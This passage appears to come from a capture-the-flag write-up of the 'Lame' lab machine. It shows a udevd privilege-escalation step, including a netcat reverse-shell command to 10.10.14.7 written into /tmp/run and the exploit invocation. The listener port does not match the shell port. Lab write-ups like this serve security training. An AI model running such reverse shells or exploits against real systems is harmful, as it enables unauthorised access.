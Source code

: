 To make use of this exploit, we need the following information:

![Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2018.png](Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2018.png)

To find the pid of the udevd process, we run the following command:

```powershell
ps -aux | grep devd
```

Next, we create a "run" file containing a reverse shell in /tmp:

```powershell
echo '#!/bin/bash' > run
echo 'nc -nv 10.10.14.7 9005 -e /bin/bash' >> run
```

Next, we set up a listener:

```python
nc -nlvp 4445
```

Lastly, we then run the compiled executable:

```python
./8572 <pid of udevd>
```

# Learning Points (Additional Points)

## SMBClient set up

- Default Kali image has error running smbclient
- To fix, edit the file at /etc/samba/smb.conf:
    
    ![Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2019.png](Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2019.png)
    

## Bash interpreting payload first
